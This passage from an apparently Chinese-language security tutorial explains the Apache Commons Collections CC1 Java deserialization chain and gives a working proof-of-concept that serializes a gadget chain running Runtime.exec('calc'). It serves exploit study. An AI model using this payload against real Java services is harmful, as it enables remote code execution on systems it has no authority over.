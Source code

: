 因为 sun.reflect.annotation.AnnotationInvocationHandler 是⼀个内部类，不能直接使⽤ new来实例化，所以这里用到了反射来获取到它的构造方法，并设置为外部可见，再调用的时候就可以实例化了。

![1](/img/297.png)

可以发现能生成序列化后的数据流，但添加一个反序列化操作却未能弹出计算器，这里需要满足两个条件：

1. sun.reflect.annotation.AnnotationInvocationHandler 构造函数的第⼀个参数必须是 Annotation (注解类)的⼦类，且其中必须含有⾄少⼀个⽅法，假设⽅法名是X 

   ![1](/img/306.png)

2. 被 TransformedMap.decorate 修饰的Map中必须有⼀个键名为X的元素

所以 AnnotationInvocationHandler 类的构造函数第一个参数用的是 Retention.class ，因为Retention有⼀个⽅法，名为value；所以，为了再满⾜第⼆个条件，还需要给Map中放⼊⼀个Key是value的元素：

```
innerMap.put("value", "xxxx");
```

所以最终POC如下：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;

public class cc1 {

    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException {
        Transformer transformerChain = new ChainedTransformer(new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {
                String.class, Class[].class},new Object[] {
                "getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[] {
                Object.class, Object[].class}, new Object[] {
                null, new Object[0]
            }),
            new InvokerTransformer("exec", new Class[] { String.class }, new Object[]{"calc"})
        });

        Map innerMap = new HashMap();
        innerMap.put("value", "xxxx");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        Object obj = construct.newInstance(Retention.class, outerMap);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream os = new ObjectOutputStream(barr);
        os.writeObject(obj);
        os.close();

        System.out.println(barr);
```